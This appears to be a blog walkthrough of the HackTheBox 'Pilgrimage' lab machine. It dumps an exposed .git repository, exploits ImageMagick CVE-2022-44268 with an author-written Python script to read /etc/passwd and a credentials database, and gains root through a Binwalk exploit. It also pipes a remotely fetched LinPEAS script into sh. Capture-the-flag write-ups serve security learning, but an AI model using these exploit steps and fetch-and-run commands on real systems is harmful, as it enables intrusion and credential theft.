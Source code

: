 ```yaml
---
title: "Pilgrimage"
publishedAt: "2024-10-11"
image: "/images/blog/pilgrimage/htb_pilgrimage.png"
summary: "A detailed walkthrough of the Pilgrimage HackTheBox machine, featuring a web application with an exposed .git repository. The writeup covers exploiting an ImageMagick vulnerability (CVE-2022-44268) to read sensitive files, gaining initial access as user Emily, and escalating privileges through a vulnerable Binwalk process."
tag: "HackTheBox"
---
```


## Initial Setup

Update your `/etc/hosts` with the entry for `pilgrimage.htb`.

## Initial Reconnaissance

Start a scan with [AutoRecon](https://github.com/Tib3rius/AutoRecon).

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'autorecon pilgrimage.htb -v',
            language: 'bash'
        },
    ]}
    copyButton
/>

From the `tcp_80_http_feroxbuster_dirbuster` output, we notice that a `.git` repository is present.

## Web Vulnerability Exploration

To exploit the `.git` repository and pull more information, install and run `git-dumper`.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'pip install git-dumper',
            language: 'bash'
        },
    ]}
    copyButton
/>
<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: '~/.local/bin/git-dumper http://pilgrimage.htb/.git/ git',
            language: 'bash'
        },
    ]}
    copyButton
/>

From the extracted files, an executable named `magick` is spotted. When running this executable with the `-version` argument:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: './magick -version',
            language: 'bash'
        },
    ]}
    copyButton
/>

We find out that the software version is `ImageMagick 7.1.0-49`. A quick search reveals a vulnerability for this version: [CVE Details](https://github.com/voidz0r/CVE-2022-44268).

Clone the repository related to the CVE and proceed.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'git clone https://github.com/voidz0r/CVE-2022-44268',
            language: 'bash'
        },
    ]}
    copyButton
/>

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'git clone https://github.com/voidz0r/CVE-2022-44268',
            language: 'bash'
        },
    ]}
    copyButton
/>
I also made a Python script to make the process easier: 

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: `import re
from urllib.parse import urlparse, parse_qs

def extract_hex_data(data):
    regex_pattern = r"^([0-9a-fA-F]+\n)+$"
    match = re.search(regex_pattern, data, re.MULTILINE)
    return match.group(0) if match else None

def download_image_from_url(url):
    response = requests.get(url, stream=True)
    with open('output.png', 'wb') as file:
        for chunk in response.iter_content(chunk_size=8192): 
            file.write(chunk)

def run_cargo(arg):
    command = ["cargo", "run", arg]
    subprocess.run(command, stdout=subprocess.DEVNULL)

def convert_image_and_upload():
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
    }

    with open('image.png', 'rb') as f:
        files = {'toConvert': ('image.png', f, 'image/png')}
        response = requests.post(BASE_URL, headers=headers, files=files)
        parsed_url = urlparse(response.url)
        params = parse_qs(parsed_url.query)
        return params['message'][0]

def identify_image():
    command = ["./magick", "identify", "-verbose", "output.png"]
    result = subprocess.run(command, capture_output=True, text=True)
    return result.stdout

def main():
    parser = argparse.ArgumentParser(description="Process and send an image to a server.")
    parser.add_argument('-i', '--input_arg', help='Argument for the cargo command.')
    parser.add_argument('-u', '--url', default="http://pilgrimage.htb/", help='Base URL for the service. Default: http://pilgrimage.htb/')

    args = parser.parse_args()
    arg = args.input_arg
    global BASE_URL
    BASE_URL = args.url

    # Run the cargo command
    run_cargo(arg)
    
    # Convert the image and upload
    image_url = convert_image_and_upload()
    
    # Download the image from the returned URL
    download_image_from_url(image_url)

    # Identify the image
    data = identify_image()
    result = extract_hex_data(data)
    
    if result:
        print(bytes.fromhex(result))
    else:
        print("No sequence found.")

if __name__ == "__main__":
    main()`,
            language: 'python'
        },
    ]}
    copyButton
/>

Test the PoC command with the following:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'python auto_pilgrim.py -i "/etc/passwd"',
            language: 'bash'
        },
    ]}
    copyButton
/>

Revert back to the folder extracted from the git dump. After analyzing the files, we notice that it tries to fetch database credentials from `/var/db/pilgrimage` as seen in `dashboard.php`.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'python auto_pilgrim.py -i "/var/db/pilgrimage"',
            language: 'bash'
        },
    ]}
    copyButton
/>

This command returns the password for the user Emily.

## Privilege Escalation

On your own machine, download LinPEAS for further enumeration:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'wget https://github.com/carlospolop/PEASS-ng/releases/latest',
            language: 'bash'
        },
    ]}
    copyButton
/>

Start a local web server:


<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'sudo python3 -m http.server 80',
            language: 'bash'
        },
    ]}
    copyButton
/>

Use the fetched password to SSH as Emily.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'ssh emily@[BOX_IP]',
            language: 'bash'
        },
    ]}
    copyButton
/>

And from Emily's shell:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'curl http://[YOUR_IP]/linpeas.sh | sh',
            language: 'bash'
        },
    ]}
    copyButton
/>


LinPEAS points to `user.txt` for the first flag and also highlights an interesting process: `/usr/sbin/malwarescan.sh`.
On reading the shell script:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'cat /usr/sbin/malwarescan.sh',
            language: 'bash'
        },
    ]}
    copyButton
/>

We find out it uses `binwalk`, especially `Binwalk v2.3.2` that is vulnerable as showcased by [this exploit](https://www.exploit-db.com/exploits/51249).

Use the exploit script with a random image:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'python exploit.py random_image.png [YOUR_IP] [YOUR_PORT]',
            language: 'bash'
        },
    ]}
    copyButton
/>

Start a Python webserver so that we can download the image from Emily's shell :

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'sudo python3 -m http.server 80',
            language: 'bash'
        },
    ]}
    copyButton
/>

On Emily's shell, fetch the image:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'wget http://[YOUR_IP]/binwalk_exploit.png',
            language: 'bash'
        },
    ]}
    copyButton
/>

Once malwarescan.sh triggers the exploit, verify that you are root:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'whoami',
            language: 'bash'
        },
    ]}
    copyButton
/>

Now find and display the root flag:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: `find / -type f -name root.txt 2>/dev/null 
cat /root/root.txt`,
            language: 'bash'
        },
    ]}
    copyButton
/>

Happy rooting :-)